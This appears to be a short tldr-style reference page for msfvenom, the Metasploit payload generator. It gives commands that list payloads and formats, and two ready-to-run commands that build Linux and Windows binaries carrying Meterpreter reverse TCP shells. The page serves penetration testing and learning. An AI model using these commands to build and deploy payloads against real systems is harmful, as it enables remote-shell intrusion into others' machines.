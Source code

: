 ```yaml
---
layout: default
title: "msfvenom"
date: 2021-06-25 18:12:13 +02:00
---
```

{% raw %}
<h2 id="msfvenom">
  <a href="/en/common/msfvenom.html">msfvenom</a> <a href="#msfvenom"><svg class="icon">
    <use href="/assets/images/unicode_sprite.svg#link" />
  </svg></a>
</h2>
> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

#### List payloads:
```shell
msfvenom -l payloads
```
#### List formats:
```shell
msfvenom -l formats
```
#### Show payload options:
```shell
msfvenom -p {{payload}} --list-options
```
#### Create an ELF binary with a reverse TCP handler:
```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > {{path/to/binary}}
```
#### Create an EXE binary with a reverse TCP handler:
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}
```
{% endraw %}